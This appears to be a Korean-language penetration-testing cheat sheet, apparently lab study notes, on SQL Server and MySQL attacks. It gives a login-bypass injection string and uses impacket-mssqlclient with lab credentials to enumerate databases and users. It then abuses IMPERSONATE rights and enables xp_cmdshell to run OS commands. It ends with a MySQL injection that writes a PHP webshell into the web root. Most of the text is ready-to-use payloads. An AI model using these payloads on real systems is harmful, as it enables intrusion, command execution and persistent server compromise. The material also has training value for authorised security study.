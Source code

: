 # Login Bypass
```sql
'OR ''='
```

# 🗂 MSSQL Client Connection

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ **Impacket**의 `mssqlclient.py`를 사용하여 MSSQL 서버에 접속.  
→ `-windows-auth` 옵션은 **Windows 인증**을 사용하여 로그인.

```sql
SELECT @@version;
```
→ MSSQL 서버 버전 확인

```sql
enum_db
```
→ enumeration DB

```sql
SELECT * FROM offsec.information_schema.tables;
```
→ 데이터베이스 `offsec`의 모든 테이블 목록 확인

```sql
SELECT * FROM offsec.dbo.users;
```
→ 데이터베이스 `offsec`의 `users` 테이블 내용 조회

---
# SQL Server - IMPERSONATE 권한 확인
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';

EXECUTE AS LOGIN = 'hrappdb-reader'
```
1. **`sys.server_permissions`**
   - SQL Server의 서버 수준 권한 정보를 담고 있는 시스템 뷰입니다.
   - `permission_name` 컬럼에 어떤 권한이 부여됐는지 표시됩니다.

2. **`sys.server_principals`**
   - 서버 수준에서 정의된 보안 주체(Principal) 정보를 담고 있는 뷰입니다.
   - 로그인 계정, Windows 로그인, SQL 로그인, 서버 역할 등이 포함됩니다.

3. **JOIN 조건**
   ```sql
   ON a.grantor_principal_id = b.principal_id
   ```
   - 권한을 부여한 **Grantor(부여자)** 의 ID를 보안 주체와 매칭합니다.
   - 즉, 누가 이 권한을 부여했는지를 확인할 수 있습니다.

4. **WHERE 조건**
   ```sql
   WHERE a.permission_name = 'IMPERSONATE'
   ```
   - `IMPERSONATE` 권한만 필터링합니다.
   - 이는 다른 계정으로 가장할 수 있는 권한을 의미합니다.
---
# 💻 MSSQL Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ 서버 접속 후, **xp_cmdshell** 기능을 활성화하여 시스템 명령어 실행

```sql
-- 1️⃣ 고급 옵션 보기 허용
EXECUTE sp_configure 'show advanced options', 1;
```
> MSSQL의 `sp_configure`는 서버 설정 값을 변경하는 명령입니다.  
> `'show advanced options'` 값을 1로 설정하면, 기본적으로 숨겨져 있는 고급 설정 옵션(예: xp_cmdshell)을 볼 수 있게 됩니다.

```sql
-- 2️⃣ 설정 적용
RECONFIGURE;
```
> 변경한 설정을 즉시 적용합니다.  
> `sp_configure`로 값을 바꾸더라도 `RECONFIGURE`를 실행하지 않으면 실제 적용되지 않습니다.

```sql
-- 3️⃣ xp_cmdshell 기능 활성화
EXECUTE sp_configure 'xp_cmdshell', 1;
```
> `xp_cmdshell`은 SQL 쿼리에서 직접 OS 명령어를 실행하게 해주는 확장 저장 프로시저입니다.  
> 기본적으로 보안상 이유로 비활성화(0) 되어 있습니다.  
> 여기서 1로 설정하여 기능을 켭니다.

```sql
-- 4️⃣ 설정 적용
RECONFIGURE;
```
> 마찬가지로 변경한 `xp_cmdshell` 설정을 즉시 적용합니다.

```sql
-- 5️⃣ OS 명령어 실행
EXECUTE xp_cmdshell 'whoami';
```
> `xp_cmdshell`을 사용해 OS 명령어(`whoami`)를 실행합니다.  
> 결과로 현재 SQL 서버 프로세스가 실행 중인 **Windows 계정**이 출력됩니다.

---


# 🐬 MySQL Code Execution
```sql
' UNION SELECT sleep(5);-- -
```
→ URL ENCODED로 실행해보기

→ 이미 SQL에 접속한 상태라면 UNION을 제외해보기

→ 띄워쓰기 on/off

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
→ SQL 인젝션을 통해 PHP 웹셸 생성  
→ `INTO OUTFILE`을 사용하여 지정 경로(`/var/www/html/tmp/webshell.php`)에 파일 작성  
→ 생성된 파일에 접근 후, `cmd` 파라미터를 통해 명령어 실행 가능  
→ 예: `http://target/tmp/webshell.php?cmd=id`

---
